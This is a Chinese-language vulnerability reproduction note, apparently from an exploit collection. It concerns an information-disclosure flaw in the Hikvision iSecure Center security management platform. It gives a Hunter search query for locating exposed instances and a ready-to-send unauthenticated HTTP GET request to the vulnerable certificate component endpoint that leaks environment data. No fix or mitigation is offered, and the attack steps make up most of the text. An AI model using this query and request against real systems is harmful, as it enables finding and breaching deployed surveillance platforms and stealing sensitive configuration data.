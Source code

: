 # 海康威视iSecure Center综合安防管理平台findcomponent泄漏漏洞

# 一、漏洞简介
HIKVISION 综合安防管理平台component存在信息泄漏漏洞，攻击者通过漏洞可以获取环境等敏感信息进一步攻击。

# 二、影响版本
+ HIKVISION 综合安防管理平台

# 三、<font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/4D8_uhrkeXQMXsJC/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-549805.png)

+ 登录页面

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/4D8_uhrkeXQMXsJC/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-064945.png)

# 四、漏洞复现
```java
GET /bic/caService/v1/certificate/machine/component HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36

```

![1717150497083-b4bc9797-1270-41b7-87c0-771eb6ad1051.png](./img/4D8_uhrkeXQMXsJC/1717150497083-b4bc9797-1270-41b7-87c0-771eb6ad1051-960575.png)



> 更新: 2024-06-01 11:04:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qf3ftbtmhnukggpy>